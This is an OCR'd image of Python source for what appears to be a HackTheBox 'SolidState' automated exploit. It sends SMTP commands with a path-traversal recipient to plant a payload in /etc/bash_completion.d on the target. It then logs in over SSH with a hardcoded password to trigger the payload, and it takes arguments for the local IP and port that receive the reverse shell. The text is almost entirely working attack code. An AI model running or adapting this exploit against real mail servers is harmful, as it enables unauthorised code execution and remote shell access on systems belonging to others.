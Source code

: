 ```py
    recv(s)
    print("[+] Sending payload...")
    s.send(b"mail from: <'@team.pl>\r\n")
    recv(s)
    s.send(b"rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send(b"data\r\n")
    recv(s)
    s.send(b"From: team@team.pl\r\n")
    s.send(b"\r\n")
    s.send(b"'\n")
    payload = str.encode(payload)
    s.send(payload + b"\n")
    s.send(b"\r\n.\r\n")
    recv(s)
    s.send(b"quit\r\n")
    recv(s)
    s.close()
    print("[+] Done! Payload will be executed once somebody logs in.")

# Just trigger it
def LoginSSH(rhost,lport):
    print("[+] Just trigger it !! [+]")
    FNULL = open(os.devnull, 'w')
    subprocess.Popen(["sshpass","-p","P@55W0rd1!2@","ssh","mindy@%s" %rhost],
        stdout=FNULL, 
        stderr=subprocess.STDOUT)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox SolidState AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Send Payload
    SendPayload(rhost,lhost,lport)
    # Trigger it
    LoginSSH(rhost,lport)

if __name__ == '__main__':
    main()
```
